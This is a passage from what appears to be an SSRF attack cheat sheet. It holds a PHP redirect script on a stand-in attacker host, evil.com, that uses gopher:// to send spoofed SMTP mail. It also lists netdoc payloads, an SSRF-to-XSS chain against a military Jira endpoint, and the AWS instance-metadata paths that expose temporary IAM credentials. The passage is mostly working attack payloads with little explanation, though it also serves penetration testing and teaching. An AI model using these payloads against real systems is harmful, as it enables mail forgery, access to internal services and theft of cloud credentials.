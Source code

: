 #### Gopher SMTP - send a mail

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```powershell
ssrf.php?url=gopher://127.0.0.1:4242/DATA
```

## SSRF to XSS 

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

```bash
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## SSRF URL for Cloud Instances

### SSRF URL for AWS Bucket

[Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)
Interesting path to look for at `http://169.254.169.254`

```powershell
Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
```

